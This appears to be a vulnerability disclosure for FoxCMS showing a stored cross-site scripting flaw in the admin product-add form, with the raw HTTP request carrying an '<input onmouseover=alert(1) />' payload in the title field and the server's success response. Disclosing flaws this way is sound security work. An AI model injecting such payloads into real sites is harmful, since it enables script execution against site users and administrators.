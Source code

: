 ```
			type: 'warning',
			text: res.msg
		})
	},
})
```

Function point location：

<img width="2878" height="1488" alt="8aab9352-e815-4bbc-8ce1-55f8832efff7" src="https://github.com/user-attachments/assets/d0f5aa29-6fea-4708-b9bb-ace45308b65c" />


Request:

```
POST /index.php/admin4435/Product/add.html HTTP/1.1
Host: www.foxcms.cms
Content-Length: 329
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36 Edg/140.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://www.foxcms.cms
Referer: http://www.foxcms.cms/index.php/admin4435/Product/add.html?type=1&bcid=3_14
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; access_127_0_0_1=1761129226
Connection: close

title=%3Cinput+onmouseover%3Dalert(1)+%2F%3E&brief_title=test3&article_field=&column_id=14&column=A%E7%B3%BB%E5%88%97&breviary_pic_id=456&keywords=&description=&article_source=&author=&team_status=%2C&content=&picset_ids=&release_time=&click=&status=1&tags=&product_attr_ids=3%2C4%2C5%2C6%2C7%2C8%2C9%2C&price=&buy_link=&big_img=
```

Response:

```
HTTP/1.1 200 OK
Server: nginx/1.15.11
Date: Wed, 22 Oct 2025 12:28:07 GMT
Content-Type: application/json; charset=utf-8
Connection: close
X-Powered-By: PHP/7.3.4
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 1800
Access-Control-Allow-Methods: GET, POST, PATCH, PUT, DELETE, OPTIONS
Access-Control-Allow-Headers: Authorization, Content-Type, If-Match, If-Modified-Since, If-None-Match, If-Unmodified-Since, X-CSRF-TOKEN, X-Requested-With
Access-Control-Allow-Origin: http://www.foxcms.cms
Set-Cookie: PHPSESSID=7c8341b30311677309e6835915d1b2c9; expires=Thu, 23-Oct-2025 12:28:07 GMT; Max-Age=86400; path=/
Content-Length: 59

{"code":1,"msg":"操作成功","data":"","url":"","wait":1}
```
<img width="2878" height="1566" alt="image" src="https://github.com/user-attachments/assets/26de6123-cbc3-4604-8290-52b5c47231ed" />
